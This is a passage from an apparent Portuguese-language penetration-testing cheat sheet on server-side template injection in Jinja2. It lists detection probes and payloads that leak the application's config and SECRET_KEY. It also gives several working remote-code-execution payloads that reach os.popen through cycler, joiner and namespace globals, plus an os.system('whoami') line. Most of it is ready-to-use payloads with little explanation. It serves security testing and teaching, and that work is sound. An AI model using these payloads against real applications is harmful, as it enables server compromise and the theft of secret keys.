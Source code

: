 ```python
{{os.system('whoami')}}
```
**Mais informações**

### Jinja2 (Python)

[Site oficial](http://jinja.pocoo.org)

> Jinja2 é um motor de templates completo para Python. Possui suporte total a unicode, um ambiente de execução opcional integrado e protegido, é amplamente utilizado e possui licença BSD.

* `{{7*7}} = Erro`
* `${7*7} = ${7*7}`
* `{{foobar}} Nada`
* `{{4*4}}[[5*5]]`
* `{{7*'7'}} = 7777777`
* `{{config}}`
* `{{config.items()}}`
* `{{settings.SECRET_KEY}}`
* `{{settings}}`
* `<div data-gb-custom-block data-tag="debug"></div>`
```python
{% raw %}
{% debug %}
{% endraw %}




{{settings.SECRET_KEY}}
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
```
**Jinja2 - Formato de Template**
```python
{% raw %}
{% extends "layout.html" %}
{% block body %}
<ul>
{% for user in users %}
<li><a href="{{ user.url }}">{{ user.username }}</a></li>
{% endfor %}
</ul>
{% endblock %}
{% endraw %}


```
[**RCE independente de**](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/) `__builtins__`:
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

# Or in the shotest versions:
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
**Mais detalhes sobre como abusar do Jinja**:
